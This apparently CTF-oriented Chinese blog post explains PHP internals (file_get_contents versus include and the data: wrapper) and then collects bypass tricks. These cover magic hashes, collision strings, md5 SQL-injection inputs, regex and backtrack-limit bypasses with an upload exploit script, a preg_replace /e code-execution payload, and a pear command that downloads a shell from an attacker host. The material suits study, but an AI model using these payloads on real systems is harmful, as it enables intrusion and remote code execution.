---
title: "PHP的一些小技巧"
date: 2025-05-07T19:46:51+08:00
summary: " "
url: "/posts/PHP的一些小技巧/"
categories:
  - "PHP"
tags:
  - "php小技巧"
draft: false
---

## include和file_get_content处理伪协议的不同

在讲这个内容之前，我们需要了解一下file_get_content的源码实现

### file_get_content的源码实现

在 PHP 源码里，`file_get_contents` 定义在 **ext/standard/file.c**，直接去github下载到本地看吧

https://github.com/php/php-src/blob/PHP-7.3.6/ext/standard/file.c

```c
PHP_FUNCTION(file_get_contents)
{
	char *filename;
	size_t filename_len;
	zend_bool use_include_path = 0;
	php_stream *stream;
	zend_long offset = 0;
	zend_long maxlen = (ssize_t) PHP_STREAM_COPY_ALL;
	zval *zcontext = NULL;
	php_stream_context *context = NULL;
	zend_string *contents;

	/* Parse arguments */
	ZEND_PARSE_PARAMETERS_START(1, 5)
		Z_PARAM_PATH(filename, filename_len)
		Z_PARAM_OPTIONAL
		Z_PARAM_BOOL(use_include_path)
		Z_PARAM_RESOURCE_EX(zcontext, 1, 0)
		Z_PARAM_LONG(offset)
		Z_PARAM_LONG(maxlen)
	ZEND_PARSE_PARAMETERS_END();

	if (ZEND_NUM_ARGS() == 5 && maxlen < 0) {
		php_error_docref(NULL, E_WARNING, "length must be greater than or equal to zero");
		RETURN_FALSE;
	}

	context = php_stream_context_from_zval(zcontext, 0);

	stream = php_stream_open_wrapper_ex(filename, "rb",
				(use_include_path ? USE_PATH : 0) | REPORT_ERRORS,
				NULL, context);
	if (!stream) {
		RETURN_FALSE;
	}

	if (offset != 0 && php_stream_seek(stream, offset, ((offset > 0) ? SEEK_SET : SEEK_END)) < 0) {
		php_error_docref(NULL, E_WARNING, "Failed to seek to position " ZEND_LONG_FMT " in the stream", offset);
		php_stream_close(stream);
		RETURN_FALSE;
	}

	if (maxlen > INT_MAX) {
		php_error_docref(NULL, E_WARNING, "maxlen truncated from " ZEND_LONG_FMT " to %d bytes", maxlen, INT_MAX);
		maxlen = INT_MAX;
	}
	if ((contents = php_stream_copy_to_mem(stream, maxlen, 0)) != NULL) {
		RETVAL_STR(contents);
	} else {
		RETVAL_EMPTY_STRING();
	}

	php_stream_close(stream);
}
```

先看看局部变量

```c
char *filename;		//传入的文件路径或url
size_t filename_len;	//文件名长度
zend_bool use_include_path = 0;		
php_stream *stream;		//打开的文件或协议流
zend_long offset = 0;
zend_long maxlen = (ssize_t) PHP_STREAM_COPY_ALL;
zval *zcontext = NULL;
php_stream_context *context = NULL;
zend_string *contents;
```

然后我们看对协议流的处理

```c
stream = php_stream_open_wrapper_ex(filename, "rb",
            (use_include_path ? USE_PATH : 0) | REPORT_ERRORS,
            NULL, context);
```

我们主要看php_stream_open_wrapper_ex 函数，因为这个是处理流包装器的主要逻辑

在main\streams\streams.c中，我们先来看看这个函数中的参数

```c
php_stream *stream = NULL;
php_stream_wrapper *wrapper = NULL;
const char *path_to_open;
int persistent = options & STREAM_OPEN_PERSISTENT;
zend_string *resolved_path = NULL;
char *copy_of_path = NULL;
```

其中`php_stream_wrapper *wrapper`是所选的协议封装对象。

```c
	if (!path || !*path) {
		php_error_docref(NULL, E_WARNING, "Filename cannot be empty");
		return NULL;
	}
```

这里是检查路径合法性，否则抛出报错

```c
wrapper = php_stream_locate_url_wrapper(path, &path_to_open, options);
```

这是核心逻辑，分析路径，找到合适的**封装协议对象**，我们跟进php_stream_locate_url_wrapper函数

在同一文件中进行分析找到关键代码



可以看到这里会对`data:`进行特例的判断，这是因为在RFC 2397定义 **Data URI Scheme** 的技术规范文档中data的规范应该是

```php
data:[<mediatype>][;base64],<data>
```

此时也能匹配到data协议，但是其实`data://`也是符合规范的

写个demo测试一下

```php
<?php
// RFC 2397
$fp1 = fopen('data:,test', 'r');
$meta1 = stream_get_meta_data($fp1);
echo $meta1['wrapper_type']; // RFC2397

// PHP wrapper
$fp2 = fopen('data://text/plain,test', 'r');
$meta2 = stream_get_meta_data($fp2);
echo $meta2['wrapper_type']; // RFC2397
```

然后我们来看看include的源码

### include的源码实现

在Zend\zend_execute.c中的zend_include_or_eval，这是 PHP Zend 引擎中处理 **include/require/eval** 的核心函数。

```c
if (SUCCESS == zend_stream_open(ZSTR_VAL(resolved_path), &file_handle)) {

					if (!file_handle.opened_path) {
						file_handle.opened_path = zend_string_copy(resolved_path);
					}

					if (zend_hash_add_empty_element(&EG(included_files), file_handle.opened_path)) {
						zend_op_array *op_array = zend_compile_file(&file_handle, (type==ZEND_INCLUDE_ONCE?ZEND_INCLUDE:ZEND_REQUIRE));
						zend_destroy_file_handle(&file_handle);
						zend_string_release_ex(resolved_path, 0);
						if (Z_TYPE(tmp_inc_filename) != IS_UNDEF) {
							zval_ptr_dtor_str(&tmp_inc_filename);
						}
						return op_array;
					} else {
						zend_file_handle_dtor(&file_handle);
already_compiled:
						new_op_array = ZEND_FAKE_OP_ARRAY;
					}
				}
```

zend_stream_open函数会尝试打开文件，这里是我们的核心，跟进一下

在Zend\zend_stream.c中zend_stream_open

```c
ZEND_API int zend_stream_open(const char *filename, zend_file_handle *handle) /* {{{ */
{
	if (zend_stream_open_function) {
        //如果设置了自定义的打开函数
		return zend_stream_open_function(filename, handle);
	}
	handle->type = ZEND_HANDLE_FP;
	handle->opened_path = NULL;
	handle->handle.fp = zend_fopen(filename, &handle->opened_path);
	handle->filename = filename;
	handle->free_filename = 0;
	memset(&handle->handle.stream.mmap, 0, sizeof(zend_mmap));

	return (handle->handle.fp) ? SUCCESS : FAILURE;
}
```

我们跟进zend_stream_open_function的值

在PHP 中，`zend_stream_open_function` 通常在 **SAPI 初始化阶段**被设置



然后同文件下可以找到

```c
zend_stream_open_function = utility_functions->stream_open_function;
```

随后跟进一下utility_functions结构体


然后我们查找哪里利用结构体初始化了这个函数stream_open_function



很明显，最后zend_stream_open_function的值就是`php_stream_open_for_zend`，所以会调用php_stream_open_for_zend函数，跟进php_stream_open_for_zend函数来到php_stream_open_for_zend_ex函数

里面有一个处理文件流的操作

```c
php_stream *stream = php_stream_open_wrapper((char *)filename, "rb", mode, &opened_path);
```

跟进php_stream_open_wrapper来到`_php_stream_open_wrapper_ex函数`中的zend_resolve_path相关代码段

```c
	if (options & USE_PATH) {
		resolved_path = zend_resolve_path(path, strlen(path));
		if (resolved_path) {
			path = ZSTR_VAL(resolved_path);
			/* we've found this file, don't re-check include_path or run realpath */
			options |= STREAM_ASSUME_REALPATH;
			options &= ~USE_PATH;
		}
		if (EG(exception)) {
			return NULL;
		}
	}
```

> [!CAUTION]
>
> 这时候肯定会有人疑问，为什么file_get_content和include都会来到`_php_stream_open_wrapper_ex`函数，但是为什么进入的处理逻辑不一样呢？
>
> 让我们把视角回到php_stream_open_for_zend_ex函数中
>
> 
>
> 可以看到多了一个opened_path参数，并且默认是这三个值，反观file_get_content
>
> 
>
> 可以看到如果这里没有值的话就默认是REPORT_ERRORS，否则就是`USE_PATH | REPORT_ERRORS`
>
> 所以这也是为什么include最终会进入`if (options & USE_PATH) {`的情况

继续跟进`zend_resolve_path`，一路来到php_resolve_path_for_zend并进入php_resolve_path



这里就是重点了

```c
for (p = filename; isalnum((int)*p) || *p == '+' || *p == '-' || *p == '.'; p++);
//遍历文件名的字符，识别 URL 协议头，直到遇到不是[a-zA-Z0-9+-.]的字符
	if ((*p == ':') && (p - filename > 1) && (p[1] == '/') && (p[2] == '/')) {
        //检测是否是://协议的格式
		wrapper = php_stream_locate_url_wrapper(filename, &actual_path, STREAM_OPEN_FOR_INCLUDE);
		if (wrapper == &php_plain_files_wrapper) {
			if (tsrm_realpath(actual_path, resolved_path)) {
				return zend_string_init(resolved_path, strlen(resolved_path), 0);
			}
		}
		return NULL;
	}
```

很容易就能看到，这里要求协议必须是`[协议头]://`的格式，这也是跟`file_get_contents`不同的地方

因此我们可以得出一个结论

> [!IMPORTANT]
>
> file_get_contents函数针对`data:`协议仍然可以进行解析为data封装协议，而include在遇到`data:`的格式则会由于格式问题返回NULL

# PHP弱比较绕过

1. 强比较`===` 在进行比较的时候，会先判断两种字符串的类型是否相等，再比较
2. 弱比较`==` 在进行比较的时候，会先将字符串类型转化成相同，再比较

先通读一下官方手册：

https://www.php.net/manual/zh/language.operators.comparison.php

## PHP弱比较类型

### 字符串和数字比较

当字符串和数字进行弱比较时，如果字符串以数字开头（直至非数字字符出现），就会将该数字作为转换值；如果不是以数字开头或字符串为null，就会转换成0；并将转换后的值和数字进行比较

```php
<?php
     var_dump("admin"==0); //Ture
     var_dump("2admin"==1); //Flas
     var_dump("admin" == 2);//Flas
     var_dump("0e123456"=="0e654321");//True
```

需要注意的是最后一点，如果该字符串包含`'.','e','E'`，该字符串就会被转化成float类型，采用科学计数法的方式去进行计算，0的无论几次方都是0，所以比较结果为`0==0`

官方手册里这么一个例子

PHP 8.0.0 之前，如果 string 与数字或者数字字符串进行比较， 则在比较前会将 string 转化为数字。 在如下示例中会出现不可预料的结果：

```php
<?php
var_dump(0 == "a");
var_dump("1" == "01");
var_dump("10" == "1e1");
var_dump(100 == "1e2");

switch ("a") {
case 0:
    echo "0";
    break;
case "a":
    echo "a";
    break;
}
?>
```

以上示例在 PHP 7 中的输出：

```php
bool(true)
bool(true)
bool(true)
bool(true)
0
```

以上示例在 PHP 8 中的输出：

```php
bool(false)
bool(true)
bool(true)
bool(true)
a
```

所以我们需要注意php版本的区别

### 布尔值与任意值比较

在布尔值进行比较的时候，0和空字符串都表示false，而`'    '`这种字符串其实是表示非空

总结一句话：布尔值true和除了0和空字符串以外的任意字符串都相等

```php
<?php
var_dump('hahaha'==true);//bool(true)
var_dump(111==true);//bool(true)
var_dump(0==true);//bool(false)
var_dump(''==true);//bool(false)
var_dump('   '==true);//bool(true)
```

# array_search()函数绕过

先看官方手册



如果在**haystack**数组中找到了 `needle` 则返回`needle`在数组中对应的键，否则返回 **`false`**。

第三个参数**strict**是可选的，如果**strict**参数为true，则 **array_search()** 将在 `haystack` 中检查*完全相同*的元素。 这意味着同样严格比较 `haystack` 里 `needle` 的 类型，并且对象需是同一个实例。

简单来说就是如果**strict**是false的话，本质上这里的比较就是一个弱比较`$haystack`==`$needle`

```php
<?php
$a = array(0,1);
var_dump(array_search("admin",$a));//int(0)
var_dump(array_search("1admin",$a));//int(1)
var_dump(array_search("1admin",$a,true));//bool(false)
```

当然如果第三个参数为true则就不能绕过

# 关于md5和sha1绕过

## 1.数组绕过

对于php强比较和弱比较：md5()，sha1()函数无法处理数组，如果传入的为数组，会返回NULL，所以两个数组经过加密后得到的都是NULL，也就是相等的。

## 2.0e绕过弱比较

对于某些特殊的字符串加密后得到的密文以0e开头，PHP会当作科学计数法来处理，也就是0的n次方，得到的值比较的时候都相同

需要注意的是，这里不仅仅是需要加密后是0e开头的，还需要0e后面的内容是纯数字而不会有字母

md5加密后是0e开头的：

```
240610708:0e462097431906509019562988736854
QLTHNDT:0e405967825401955372549139051580
QNKCDZO:0e830400451993494058024219903391
PJNPDWY:0e291529052894702774557631701704
NWWKITQ:0e763082070976038347657360817689
NOOPCJF:0e818888003657176127862245791911
MMHUWUV:0e701732711630150438129209816536
MAUXXQC:0e478478466848439040434801845361
0e215962017:0e291242476940776845150308577824
```

sha1加密后是0e开头的

```
10932435112: 0e07766915004133176347055865026311692244
aaroZmOk: 0e66507019969427134894567494305185566735
aaK1STfY: 0e76658526655756207688271159624026011393
aaO8zKZF: 0e89257456677279068558073954252716165668
aa3OFF9m: 0e36977786278517984959260394024281014729
0e1290633704: 0e19985187802402577070739524195726831799
```

## 3.fastcoll进行强碰撞

用fastcoll来进行强碰撞：http://www.win.tue.nl/hashclash/fastcoll_v1.0.0.5.exe.zip

- 先创建一个任意文件内容的文本内容
- 用fastcoll来进行强碰撞

```php
fastcoll_v1.0.0.5.exe -p test.txt -o 1.txt 2.txt
```

此时会输出两个文件，文件内容不一样但是文件的md5是一样的

由于文件内容含有不可见字符，故而需要进行 URL 编码之后传入

```php
<?php 
function read_file($filename) {
    $file = fopen($filename,'rb');
    $content = fread($file,filesize($filename));
    return $content;
}
$file1 = urlencode(read_file('1.txt'));
$file2 = urlencode(read_file('2.txt'));
echo $file1;
echo "\n";
echo $file2;
echo "\n";
?>
```

## 4.String强制类型转换后的强碰撞

举个例

```php
if ((string)$a !== (string)$b && md5((string)$a) === md5((string)$b))
```

这种情况下是强碰撞，如果是数组的话会导致在string转换的时候转换成null，这时候再进行md5的话就不相等了

md5

```php
psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%24%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%82%7D%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%84%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEcC%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%BC%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%99%B59%F9%FF%C2
和
psycho%0A%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00W%ADZ%AF%3C%8A%13V%B5%96%18m%A5%EA2%81_%FB%D9%A4%22%2F%8F%D4D%A27vX%B8%08%D7m%2C%E0%D4LR%D7%FBo%10t%19%02%02%7E%7B%2B%9Bt%05%FFl%AE%8DE%F4%1F%04%3C%AE%01%0F%9B%12%D4%81%A5J%F9H%0FyE%2A%DC%2B%B1%B4%0F%DEc%C3%40%DA29%8B%C3%00%7F%8B_h%C6%D3%8Bd8%AF%85%7C%14w%06%C2%3AC%3C%0C%1B%FD%BB%98%CE%16%CE%B7%B6%3A%F3%9959%F9%FF%C2
```

```php
M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
和
M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

sha1

```php
%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1
和
%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1
```

## 5.双重md5下的0e绕过

爆破脚本

```python
import hashlib

for i in range(0,1000000000000):
    data = "0e"+str(i)
    md5 = hashlib.md5(data.encode('utf-8')).hexdigest()
    md52 = hashlib.md5(str(md5).encode('utf-8')).hexdigest()
    if md52[0:2] == '0e' and md52[2:].isnumeric():
        print(data+": "+md52)
```

以下字符串进行两次md5后以0e开头

- `0e1138100474`

## 6.md5绕过SQL

```
ffifdyop，经过md5函数后结果为 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c；

129581926211651571912466741651878684928，经过md5函数后结果为 \x06\xdaT0D\x9f\x8fo#\xdf\xc1'or'8；
```

这两个加密后都是万能密码

## 7.md5(sha1)加密后弱等于初始值

`$a==md5($a)`

`0e215962017` 的 MD5 值也是由 **0e** 开头，在 PHP 弱类型比较中相等

**$a==sha1($a)**

0e1290633704的sha1值也是由0e开头的，在弱比较中相等

## 8.图片文本强碰撞绕过

可以用工具fastcoll（md5强碰撞生成工具）

例如我们需要生成两个md5值相同的图片/文本，可以利用工具去生成



# is_numeric()函数绕过



如果指定的变量是数字和数字字符串则返回 TRUE，否则返回 FALSE，注意浮点型返回空值，即 FALSE。

绕过!is_numeric($num)的判断：

- is_numeric函数对于空字符%00，无论是%00放在前后都可以判断为非数值，而%20空格字符只能放在数值后。
- 构造浮点数可以绕过判断

# strcmp()函数绕过

`strcmp()` 是一个 PHP 函数，用于比较两个字符串。它的用法如下：

```
int strcmp ( string $str1 , string $str2 )
```

- 如果 `str1` 小于 `str2`，那么 `strcmp()` 返回一个小于 0 的整数。
- 如果 `str1` 大于 `str2`，那么 `strcmp()` 返回一个大于 0 的整数。
- 如果 `str1` 等于 `str2`，那么 `strcmp()` 返回 0。

在php<5.3中strcmp函数无法比较数组对象，会返回0

# intval()函数漏洞绕过

## 什么是intval()？

`intval()` 函数是 PHP 中的一个内置函数，用于获取变量的整数值。常用于强制类型转换。

基础语法

```
intval(mixed $value, int $base = 10): int
```

参数：

- $var：需要转换成 integer 的「变量」
- $base：转换所使用的「进制」

**注意**:

如果 `base` 是 0，通过检测 `value` 的格式来决定使用的进制：

- 如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，
- 如果字符串以 "0b" (或 "0B") 开头，使用 2 进制 (binary)；否则，
- 如果字符串以 "0" 开始，使用 8 进制(octal)；否则，
- 将使用 10 进制 (decimal)。

返回值

成功时返回 `value` 的 integer 值，失败时返回 0。 空的 array 返回 0，非空的 array 返回 1。

举个例子

```php
<?php
echo intval(42);          //42
echo "\n";
echo intval(42.2);        //42
echo "\n";
echo intval(042);         //34
echo "\n";
echo intval(0x42);        //66
echo "\n";
echo intval(array('name'));     //1
echo "\n";
echo intval(array());           //0
echo "\n";
```

## 绕过思路

- 当某个数字被过滤时，可以使用它的 8进制/16进制来绕过；比如过滤10，就用012（八进制）或0xA（十六进制）。
- 对于弱比较（a==b），可以给a、b两个参数传入空数组，使弱比较为true。
- 当某个数字被过滤时，可以给它增加小数位来绕过；比如过滤3，就用3.1。
- 当某个数字被过滤时，可以给它拼接字符串来绕过；比如过滤3，就用3ab。
- 当某个数字被过滤时，可以两次取反来绕过；比如过滤10，就用~~10。
- 当某个数字被过滤时，可以使用算数运算符绕过；比如过滤10，就用 5+5 或 2*5。

# stripos()函数绕过



可以看到stripos函数是一种不区分大小写的检测，而通常我们在遇到waf的时候很多都是用stripos函数去进行检测的，例如

```php
function filter($file) {
    $waf = array('/',':','php','base64','data','zip','rar','filter','flag');
    foreach ($waf as $waf_word) {
        if (stripos($file, $waf_word) !== false) {
            echo "waf:".$waf_word;
            return false;
        }
    }
    return true;
}
```


# 关于preg_match()绕过

## 什么是preg_match？



## 绕过方法

- 数组绕过

preg_match只能处理字符串，当传入的subject是数组时会返回false

- 换行符绕过

特殊字符`.`在正则表达式中可以匹配任何字符串，换行符除外

例如我们这里有代码

```php
<?php
highlight_file(__FILE__);
if(preg_match("/^.*(flag).*$/",$_GET['a'])){
    echo "匹配成功";
}else {
    echo "匹配失败";
}
```

如果我们传入a=flag，就满足了正则匹配，返回匹配成功

如果我们传入a=%0aflag,就能绕过正则匹配，返回匹配失败，这是为什么呢？

当传入 `a=\nflag` 时：

1. **`^`** - 匹配字符串开头

2. `.*`\- 尝试贪婪匹配：

   - 默认情况下 `.` 不匹配换行符 `\n`
   - 所以 `.*` 在这里匹配空字符串

3. 剩余字符串

   ```
   \nflag
   ```

   - 需要匹配 `(flag)`，但开头是 `\n`
   - 无法匹配 `f`，所以整体匹配失败

4. **返回0**（不匹配）

`*` 是贪婪量词，会尽可能多地匹配字符。当后续匹配失败时，会逐步"吐出"已匹配的字符（回溯）。

## PHP利用PCRE回溯次数限制绕过

参考P牛的文章：[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

实例代码如下

```php
<?php
function is_php($data){  
    return preg_match('/<\?.*[(`;?>].*/is', $data);  
}

if(!is_php($input)) {
    // fwrite($f, $input); ...
}
```

分析一下就是判断用户输入的内容有没有php代码，如果没有就写入文件，显而易见我们需要绕过这个正则匹配去写入我们期望的代码，这时候该怎么做呢？

## 正则引擎

常见的正则引擎，往往被细分为DFA（确定性有限状态自动机）与NFA（非确定性有限状态自动机），他们匹配的过程是这样的

- DFA: 从起始状态开始，一个字符一个字符地读取输入串，并根据正则来一步步确定至下一个转移状态，直到匹配不上或走完整个输入(线性匹配)
- NFA：从起始状态开始，一个字符一个字符地读取输入串，并与正则表达式进行匹配，如果匹配不上，则进行回溯，尝试其他状态(回溯机制)

大多数编程语言都采用的NFA作为正则引擎，其中也包括PHP使用的PCRE库

## 回溯的过程

例如p牛这里测试了一个案例

假设匹配的输入是`<?php phpinfo();//aaaaa`，实际执行流程是这样的：



可以看见在第四步的时候，由于`.*`贪婪匹配机制，第一个`.*`最终匹配到我们输入的字符串的结尾(`<?php phpinfo();//aaaaa`)，但这样的话后面的匹配就匹配不上，因为在`.*`后还应该匹配**[(\`;?>]**，所以NFA开始回溯匹配，从末尾开始，先吐出一个a，此时`.*`匹配的是`<?php phpinfo();//aaaa`，尝试用**[(\`;?>]**去匹配a，但仍然匹配不上，继续回溯，再吐出一个a，尝试匹配aa，但仍然不行......

一直回溯直到第12步，此时`.*`匹配的是`<?php phpinfo()`后面的`;`则匹配上**[(\`;?>]**，此时这个结果才能满足正则表达式的结果，于是就不再回溯，继续向后匹配表达式，第二个`.*`匹配到了字符串末尾，最后结束匹配。

以上就是NFA的回溯机制。

## 关于PHP的pcre.backtrack_limit限制利用

PHP为了防止正则表达式的拒绝服务攻击（reDOS），给pcre设定了一个回溯次数上限`pcre.backtrack_limit`。我们可以通过`var_dump(ini_get('pcre.backtrack_limit'));`的方式查看当前环境下的上限：



在官方文档中也有写到



可见，回溯次数上限默认是100万。那么，假设我们的回溯次数超过了100万，会造成什么结果呢？我们尝试一下

```
var_dump(preg_match('/<\?.*[(`;?>].*/is','<?php phpinfo();//' . str_repeat('c',1000000)));
```



结果返回了false，而并非1和0，`preg_match`函数返回false表示此次执行失败了



我们可以用

```
preg_last_error() === PREG_BACKTRACK_LIMIT_ERROR
```

这行代码用于**检测最后一次PCRE正则操作是否因回溯限制而失败**。

| 组成部分                     | 说明                                         |
| ---------------------------- | -------------------------------------------- |
| `preg_last_error()`          | PHP函数，返回最后一次PCRE正则操作的错误代码  |
| `PREG_BACKTRACK_LIMIT_ERROR` | PHP常量，值为2，表示正则匹配超出最大回溯限制 |
| `===`                        | 比较运算符，检查值和类型是否完全一致         |



这里返回true，说明确实是因为超出了最大回溯限制而执行失败

所以上面那道例题的答案就很明显了，可以通过发送超长字符串使正则执行失败，让我们的php代码成功写入

最终的exp

```php
import requests
from io import BytesIO
    
url = ""

files = {
  'file': BytesIO(b'aaa<?php phpinfo();//' + b'a' * 1000000)
}

r = requests.post(url=url, files=files, allow_redirects=False)
print(r.headers)
```

# preg_replace /e 模式下的RCE

限制版本：PHP <=5.5

参考文章：[深入研究preg_replace与代码执行](https://mochazz.github.io/2018/08/13/%E6%B7%B1%E5%85%A5%E7%A0%94%E7%A9%B6preg_replace%E4%B8%8E%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/#%E5%89%8D%E8%A8%80)

## 什么是**preg_replace**()函数？

preg_replace — 执行一个正则表达式的搜索和替换

```
preg_replace(
    string|array $pattern,
    string|array $replacement,
    string|array $subject,
    int $limit = -1,
    int &$count = null
): string|array|null
```



其实这里的漏洞很简单，如果**preg_replace** 使用了 **/e** 模式，就可以导致代码执行，当使用了/e模式的时候，**preg_replace** 函数在匹配到符号正则的字符串时，会将替换字符串当成代码去执行，

举个例子

```php
<?php
highlight_file(__FILE__);
function complex($re, $str) {
    return preg_replace('/(' . $regex . ')/ei','strtolower("\\1")',$str);
}


foreach($_GET as $regex => $str) {
    echo complex($regex, $str). "\n";
}
```

因为这里第一个和第三个参数都是我们可控的，我们也知道了preg_replace匹配到符号正则的字符串时，会将替换字符串当成代码去执行，但是因为这里第二个参数是固定的，此时我们应该怎么执行代码呢？

在参数2中，我们可以看到有`\1`，其实`\1`在这个函数中是有含义的，`\1` 是 **反向引用**，指代正则中的第1个捕获组。

## 反向引用

如果在正则表达式两边添加括号，那么就会导致相关的**匹配存储到一个临时的缓冲区**，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 ‘\n’ 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。



所以实际上这里就是匹配第一个子匹配项，可能现在还不能理解，先拿payload去讲解吧

```
GET：/?.*={${phpinfo()}} 
```

那么结果就是

```
原先的语句： preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);
变成了语句： preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}});
```

本身这个payload是可以实现的，但是因为这是在GET传参，PHP在处理参数名的时候会将`.`换成下划线导致无法执行，当非法字符为首字母时，只有点号会被替换成下划线。

所以我们这里要做的就是让正则匹配能完全匹配到我们的`{${phpinfo()}}`，这里师傅给出了一个payload

```
\S*=${phpinfo()}
```

然后我们再解释一下为什么需要匹配到`{${phpinfo()}}`才能执行里面的代码，这也是一个小点，其实就是可变变量的原因



所以**在双引号的包裹下，我们的字符串会检查并解析变量，而单引号不会**，**${phpinfo()}** 中的 **phpinfo()** 会被当做变量先执行，执行后，即变成 **${1}** (phpinfo()成功执行返回true)

```
php > var_dump(phpinfo());
.
.
.
bool(true)
php >
```

另外需要注意的是，**在/e模式下执行代码的时候会自动转义特殊字符**

# PHP中非法变量的解析



参数名中含有`空格`和`点`，可以看到当我们传入`?mo yu.=xxx`时，传入的参数名中点`.`和`空格`都被替换为了下划线`_`，从而变成mo_yu_这样的参数名确实无法传参

当`PHP版本小于8`时，如果参数中出现中括号`[`，中括号会被转换成下划线`_`，但是会出现转换错误导致接下来如果该参数名中还有`非法字符`并不会继续转换成下划线`_`，也就是说如果中括号`[`出现在前面，那么中括号`[`还是会被转换成下划线`_`，但是因为出错导致接下来的非法字符并不会被转换成下划线`_`

当php版本为8以上时便不会出现这种自动转换，所以直接传入变量名就行

# pearcmd.php的妙用

## 1. register_argc_argv

如果环境中含有php.ini，则默认register_argc_argv=Off；如果环境中没有php.ini，则默认register_argc_argv=On

这个register_argc_argv能干什么呢？

我们先本地测试一下

```php
//test.php
<?php
var_dump($_SERVER['argv']);//以数组形式输出我们的命令行参数
?>
```

```
//在 CLI 模式 下
root@dkhkv28T7ijUp1amAVjh:/# php test.php 
array(1) {
  [0]=>
  string(8) "test.php"
}

root@dkhkv28T7ijUp1amAVjh:/# php test.php 1 2 3
array(4) {
  [0]=>
  string(8) "test.php"
  [1]=>
  string(1) "1"
  [2]=>
  string(1) "2"
  [3]=>
  string(1) "3"
}
```

在web页模式下必须在php.ini开启register_argc_argv配置项
设置register_argc_argv = On(默认是Off)，重启服务，$_SERVER[‘argv’]才会有效果

然后我们如何利用呢？

```php
<?php

var_dump($_SERVER['argv']);
$a = $_SERVER['argv'];
$a[0]($a[1]);
?>
```

不过这个在web下测试更方便，但是不知道为什么这里没测出来，所以直接在CLI下测了

```
root@dkhkv28T7ijUp1amAVjh:/var/www/html# cat 1.php
<?php

var_dump($_SERVER['argv']);
$a = $_SERVER['argv'];
$a[1]($a[2]);
?>
root@dkhkv28T7ijUp1amAVjh:/var/www/html# php 1.php system ls
array(3) {
  [0]=>
  string(5) "1.php"
  [1]=>
  string(6) "system"
  [2]=>
  string(2) "ls"
}
1.php
index.nginx-debian.html
upload
xss.php
```

可以看到成功执行了

然后我们看pearcmd.php的神奇使用，最好的就是p牛的文章了

PEAR是为PHP扩展与应用库(PHP Extension and Application Repository)，它是一个PHP扩展及应用的一个代码仓库
类似于composer，用于代码的下载与管理。

pear可以用来拉取远程的代码

```
pear install -R /tmp http://vps/shell.php
```

该payload可以用来拉取我们vps上的shell.php文件并解析执行

## 2.register_argc_argv和pear的关系

